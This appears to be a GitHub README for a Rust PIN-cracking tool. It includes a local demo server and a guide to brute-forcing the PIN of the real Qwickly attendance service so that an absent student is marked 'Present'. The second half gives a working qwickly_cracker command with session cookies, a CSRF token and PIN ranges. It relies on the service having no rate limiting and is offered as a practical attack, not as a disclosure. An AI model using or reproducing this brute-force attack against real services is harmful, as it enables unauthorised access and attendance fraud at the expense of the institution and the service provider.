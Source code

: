 # Crack Remote Pin
Rust example of cracking a 4-digit pin on a remote server.  

The cracking HTTP requests are executed asynchronously, so the futures will take some time to build up to 10000 in a vector and then executed at once roughly (there are probably better ways to do this).  

1. Start the pin server
```
cd pin_server
cargo run
```

2. Crack the pin on the running server
```
cd cracker
cargo run
```

## Qwickly Attendance Crack
The qwickly attendance checker asks for a 4-digit pin, which a lecturer will share with the class on a screen. Luckily qwickly don't have any spam-defense mechanisms at all, I can make 1000 POST requests with different pins in a short space of time without it preventing it.

The request needs to be crafted properly though to post without hitting an error:

1. Visit Qwickly attendance tracker page and just make a request for pin "0001", have "network" tab of browser tools open and "copy as cURL" the request

2. Take the required fields out of that and use it in the command make sure to replace "0001" with "{pin}" in the data content, for example: 

```
qwickly_cracker --referer 'https://www.qwickly.tools/attendance/takerecord/?code=BuYAp0o5b11JNFonnZtFrqWxYX2xAI3B&' --user-agent 'Mozilla/5.0 (X11; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0' --cookie 'AWSALB=AoMLFg/sY5unylBB4wo1UuftVvB74l2QvqGuwUZZzkBBPD+04k7cu0Py692RPzeMSdmMSJxUqKhsFWj8X162GHWtMWjr9IPAyE8FTMNXC98aawjJqkylnkNLhKeb; AWSALBCORS=AoMLFg/sY5unylBB4wo1UuftVvB74l2QvqGuwUZZzkBBPD+04k7cu0Py692RPzeMSdmMSJxUqKhsFWj8X162GHWtMWjr9IPAyE8FTMNXC98aawjJqkylnkNLhKeb; sessionid=if3l9orgzd7ydeah0baqn7ynlg2anp1w' --data-no-pin 'csrfmiddlewaretoken=MpUgZaDVxhfOq41BuGIrIGHXzUz8pfWrLiApCa7XM7OTISwq50dx7hvLQnvYiTZV&check_in_pin={pin}&student_check_in=Check+In&check_in_id=' --start 2000 --end 3000 > crack_2000_3000
```

3. Profit, right now the cracker requires you to stay to a 1000 limit or it just drops and doesn't check all the pins(probably OS-level too many TCP connections being opened), so go for 1000-2001, 2000-3001, and chances are you'll crack it by 5000-6001. Once the cracker hits the correct pin it'll print it, and on qwickly you'll get marked as "Present" lol
